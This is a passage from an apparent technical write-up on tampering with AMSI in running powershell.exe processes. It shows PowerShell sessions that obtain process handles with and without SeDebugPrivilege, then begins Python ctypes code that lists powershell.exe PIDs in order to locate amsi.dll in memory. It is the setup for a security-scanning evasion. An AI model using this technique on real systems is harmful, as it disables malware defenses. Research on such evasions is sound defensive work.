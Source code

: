 Now, run that under a non-privileged session:

```powershell
PS C:\Users\aroldan> Get-Process -id 18104 -IncludeUserName

Handles      WS(K)   CPU(s)     Id UserName               ProcessName
-------      -----   ------     -- --------               -----------
    116       5844     0.00  18104 NT AUTHORITY\LOCAL ... svchost

PS C:\Users\aroldan> python3 .\testhandle.py
[-] Error: 5

PS C:\Users\aroldan> net helpmsg 5

Access is denied.
```

However, if the current user has the `SeDebugPrivilege`
privilege enabled (local admins commonly have it),
you can get a handle to other processes too:

```powershell
> Get-Process -id 18104 -IncludeUserName

Handles      WS(K)   CPU(s)     Id UserName               ProcessName
-------      -----   ------     -- --------               -----------
    116       5844     0.00  18104 NT AUTHORITY\LOCAL ... svchost


PS C:\Users\aroldan> whoami /priv | findstr SeDebugPrivilege
SeDebugPrivilege                          Debug programs                                                     Enabled
PS C:\Users\aroldan> python3 .\testhandle.py
[+] Got handle
```

### Get the loaded modules of the `powershell.exe` processes

Now that we have a handle to a `powershell.exe` process,
we can perform kernel-controlled actions using
the handle interface.
In our case, we want to retrieve the addresses of the
loaded modules to find where `amsi.dll` is loaded in
memory space of the process.

One may initially think of `EnumerateProcessModules()`.
Let's check it with the following code:

```python
import psutil
from ctypes import *
from ctypes import wintypes

KERNEL32 = windll.kernel32
PSAPI = windll.PSAPI

PROCESS_ACCESS = (
    0x000F0000 |        # STANDARD_RIGHTS_REQUIRED
    0x00100000 |        # SYNCHRONIZE
    0xFFFF
)

def getPowershellPids():
    ppids = [pid for pid in psutil.pids() if psutil.Process(pid).name() == 'powershell.exe']
    return ppids

```